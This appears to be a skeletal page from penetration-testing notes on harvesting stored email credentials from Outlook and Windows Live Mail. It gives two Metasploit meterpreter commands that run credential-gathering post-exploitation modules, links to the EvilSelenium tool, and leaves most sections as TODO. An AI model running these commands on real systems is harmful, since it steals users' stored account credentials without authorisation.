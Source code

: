 # Emails

## 01 - Outlook

### 1.1 - Manual

TODO: Fill this info

### 1.2 - Metasploit

```
meterpreter > run post/windows/gather/credentials/outlook
```

### 03 - Bring Your Own Land

#### 3.1 - Binaries

##### 3.1.1 - EvilSelenium

TODO: Fill this info

# 02 - Windows Live Mail

## 2.1 - Metasploit

```
meterpreter > run post/windows/gather/credentials/windowslivemail
```

---
## References

- [EvilSelenium](https://github.com/mrd0x/EvilSelenium)